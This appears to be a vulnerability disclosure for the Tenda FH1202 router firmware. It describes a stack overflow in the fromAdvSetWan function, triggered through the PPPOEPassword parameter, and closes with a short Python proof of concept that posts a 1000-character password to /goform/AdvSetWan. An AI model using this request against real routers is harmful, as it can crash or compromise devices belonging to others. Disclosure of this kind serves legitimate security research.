 # Tenda FH1202 fromAdvSetWan
### Overview
vendor: Tenda
product: FH1202
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the PPPOEPassword parameter in the fromAdvSetWan function.
### Vulnerability details
The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability located in the `fromAdvSetWan` function. This function accepts the `PPPOEPassword` parameter from a POST request. The `PPPOEPassword` parameter serves as the first parameter of the decodePwd function, and the second parameter of the decodePwd function is the character array on the stack. String copy of decodePwd function leads to a buffer overflow. The user-supplied `PPPOEPassword` can exceed the capacity of the `s` array, thus triggering this security vulnerability.

![](images/1.png)
![](images/2.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetWan"

data = {
    "wanmode": "2",
    "PPPOEPassword": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```
